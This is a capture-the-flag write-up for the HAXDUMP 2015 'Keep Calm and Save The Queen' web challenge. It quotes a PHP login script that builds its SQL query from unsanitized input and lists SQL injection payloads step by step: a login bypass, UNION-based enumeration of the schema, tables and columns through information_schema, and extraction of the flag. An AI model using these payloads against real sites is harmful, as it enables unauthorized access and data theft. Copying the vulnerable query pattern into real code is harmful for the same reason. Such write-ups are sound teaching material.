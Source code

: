 ## HAXDUMP 2015 - Keep Calm and Save The Queen (Web 100)
##### 07/02/2015 (8hr)
___

### Description: 
The Queen's own online web portal thing!
 			 godsavethequeen.haxdump.com
			 godsavethequeen.tar.xz
___
### Solution

We have the source. Let's look at the injection point (index.php):
```php
<?php
	include("database.php");

	if(isset($_POST['username'])) {
	  $username = $_POST['username'];
	  $sql = "SELECT * from users where username='$username'";
	  $result = mysql_query($sql, $db);

	  $row = mysql_fetch_assoc($result);

	  if($_POST['password'] === $row['password']) {
		session_start();
		$_SESSION['wow'] = true;
		echo "<h4 align='center'>User ".$row['username']." successfully logged in!</h4>";
	  }
	  else {
?>
```
It's obvious where the injection is. Let's register a user foo:bar and start crafting our injection: 
```
	username=foo&password=bar					--> User foo successfully logged in!
	username=foo' AND '1'='1&password=bar		-->  User foo successfully logged in!
```
Easy, isn't it? Go on.
```
	username=bar' UNION ALL SELECT 'foo', 'bar' -- &password=bar	
```
--> User foo successfully logged in!

The query:
```
	username=bar' username=bar' UNION ALL SELECT 'ispo', 'bar'-- &password=bar 
```
gives: "User ispo successfully logged in!". However  user ispo is not registered.

Let's find the database first:
```
	username=bar' UNION ALL SELECT (SCHEMA()), 'bar'-- &password=bar
```	
--> User briton successfully logged in!

Then the tables:
```
	username=bar' UNION ALL SELECT (SELECT GROUP_CONCAT(table_name) 
				 FROM information_schema.tables WHERE table_schema='briton'), 'bar'-- &password=bar 
```
--> User flags,users successfully logged in!

We'll assume that flag table has 1 column:
```
	username=bar' UNION ALL SELECT (SELECT * FROM flags), 'bar'-- &password=bar 
```
--> User **D0_Y0U_H34R_TH3_P30PL3_H4X** successfully logged in!

If flag table didn't had 1 column, we could get the columns as follows:
```
	username=bar' UNION ALL SELECT (SELECT GROUP_CONCAT(column_name) 
			FROM information_schema.columns WHERE table_name='flags'), 'bar'-- &password=bar 
```
--> User flag successfully logged in!
___